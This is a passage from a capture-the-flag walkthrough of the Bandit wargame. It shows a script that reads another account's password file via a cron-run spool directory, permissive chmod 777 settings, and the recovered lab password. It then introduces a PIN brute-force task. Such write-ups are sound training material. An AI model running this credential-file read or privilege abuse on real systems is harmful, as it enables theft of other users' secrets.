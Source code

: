 We then write a command to access bandit24's password and write it to our working directory.

```bash
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/tmp.FGa4yfYnEF/password
```

We should also add our own file `password` to the working directory.

```
bandit23@bandit:/tmp/tmp.FGa4yfYnEF$ touch password
```

We'll need to edit the permissions to allow others to execute our script file, and for others to access to our working directory and password file, since the user bandit24 will be running the script. Right now our files only have read access for everyone else.

```
bandit23@bandit:/tmp/tmp.FGa4yfYnEF$ ls -l
total 4
-rw-rw-r-- 1 bandit23 bandit23  0 Jul 22 09:37 password
-rw-rw-r-- 1 bandit23 bandit23 74 Jul 22 09:24 password.sh
```

We do this using `chmod`, which we used back in [Level 17](#level-17), to add permissions for others.

```
bandit23@bandit:/tmp/tmp.FGa4yfYnEF$ chmod 777 /tmp/tmp.FGa4yfYnEF
bandit23@bandit:/tmp/tmp.FGa4yfYnEF$ chmod 777 password
bandit23@bandit:/tmp/tmp.FGa4yfYnEF$ chmod 777 password.sh
bandit23@bandit:/tmp/tmp.FGa4yfYnEF$ ls -l
total 4
-rw-rw-rw- 1 bandit23 bandit23  0 Jul 22 09:37 password
-rwxrwxr-x 1 bandit23 bandit23 74 Jul 22 09:24 password.sh
```

We copy the file into `/var/spool/bandit24/foo/` and wait for a minute.

```
bandit23@bandit:/tmp/tmp.FGa4yfYnEF$ cp password.sh /var/spool/bandit24/foo/password.sh
bandit23@bandit:/tmp/tmp.FGa4yfYnEF$ cat password
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

---

# Level 25

## Task

A daemon is listening on port `30002` and will give you the password for `bandit25` if given the password for `bandit24` and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time.
